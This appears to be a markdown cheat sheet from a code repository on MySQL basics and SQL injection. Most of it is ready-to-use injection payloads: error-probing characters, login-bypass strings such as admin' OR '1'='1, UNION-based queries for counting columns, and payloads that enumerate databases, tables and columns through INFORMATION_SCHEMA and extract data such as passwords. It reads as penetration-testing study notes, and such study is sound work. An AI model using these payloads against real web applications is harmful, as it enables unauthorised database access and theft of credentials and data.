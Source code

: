 # SQLi

## MySQL Basics

### Connect to a MySQL Database
```zsh
mysql -u <user> -h <host> -P <port> -p<pass>
```

### Enumerate Databases
```MySQL
SHOW Databases;
```
```MySQL
USE <database>;
```

### Enumerate Tables
```MySQL
SHOW TABLES;
```

```MySQL
DESCRIBE <table>;
```

### Retrieve Data
```MySQL
SELECT * FROM <table>;
```

```MySQL
SELECT <column1>,<column2> FROM <table>;
```

```MySQL
SELECT <column1>,<column2> FROM <table> ORDER BY <column2>;
```

```MySQL
SELECT <column1>,<column2> FROM <table> WHERE <condition>;
```

## SQL Injection
### Check for errors with:
```MySQL
'
```
```MySQL
"
```
```MySQL
#
```
```MySQL
;
```
```MySQL
)
```

### Bypassing a Log in Portal
```MySQL
admin' OR '1'='1
```
```MySQL
admin'-- 
```

### Using a UNION Clause
Remove or add from "2, 3, 4" as needed because the columns need to be "even"
```MySQL
SELECT * from <table> where <column> = '1' UNION SELECT username, 2, 3, 4 from passwords-- '
```

### Detecting the Number of Columns
```MySQL
' order by n-- 
```
where n is the max value that does not cause an error.


-or-

```MySQL
' UNION select 1,2,3-- 
```

### Locating Output
A webapp may or may not display the results of each column. Take note of where the locations of the 1, 2, or 3 are.

### Fingerprinting MySQL Database
#### Current Database
```MySQL
' UNION select 1,database(),2,3-- 
```

#### Find other Databases
```MySQL
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```
or
```MySQL
' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
```

#### Enumerate Tables
```MySQL
' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='<database>'-- 
```

#### Enumerate Columns
```MySQL
' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='<table>'-- 
```

#### Extract Data
```MySQL
' UNION select 1, column1, column2, 4 from <database>.<table>-- 
```

